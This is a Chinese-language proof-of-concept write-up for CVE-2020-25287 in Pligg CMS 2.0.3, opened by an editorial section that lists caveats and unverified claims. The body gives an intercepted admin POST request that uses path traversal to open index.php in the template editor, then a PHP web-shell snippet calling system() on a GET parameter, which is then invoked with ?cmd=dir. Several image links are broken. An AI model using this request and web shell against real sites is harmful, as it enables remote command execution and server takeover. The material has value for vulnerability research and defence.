




## 核对与使用边界

- 凭据处理：本文抓包中的可识别会话/防伪或认证值已仅将中段替换为星号，保留首尾及原长度便于对照；遮罩后的历史值不能作为可用登录凭据。原操作、请求方法和攻击表达式保留。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：管理员模板编辑权限及Cookie，目标PHP文件可写执行

- **适用与权限边界（1）**：标题简介遗漏后台认证；请求仅open文件，真正save修改请求未给。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：Origin kliqqi与Pligg产品关系/实际实验fork需核对，不能自动归原版。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（3）**：图链接残片、示例根website.fr缺scheme；命令dir Windows限定而环境未述。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2020-25287）Pligg CMS 2.0.3 远程命令执行漏洞
==================================================

一、漏洞简介
------------

该漏洞源于模板编辑器可以编辑任何文件。攻击者可利用该漏洞执行任意命令。

二、漏洞影响
------------

Pligg CMS 2.0.3

三、复现过程
------------

### POC

PliggCMS2.0.3远程命令执行漏洞/media/rId25.png)

转到`/admin/admin_editor.php`拦截请求并将路径更改为文件。

例如访问目录中的`index.php`文件：

PliggCMS2.0.3远程命令执行漏洞/media/rId26.png)

    POST /admin/admin_editor.php HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 33
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://kliqqi
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://www.0-sec.org/admin/admin_editor.php
    Accept-Encoding: gzip, deflate
    Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
    Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfk***************md3; mnm_user=Admin; mnm_key=QWR**********************zpl
    Connection: close

    the_file=..%2Findex.php&open=Open

只需单击"在浏览器中显示响应"，然后编辑文件即可

PliggCMS2.0.3远程命令执行漏洞/media/rId27.png)

例如 ：

      if($_GET['cmd']){
        system($_GET['cmd']);
    }

最后访问`website.fr?cmd=dir`

PliggCMS2.0.3远程命令执行漏洞/media/rId28.png)
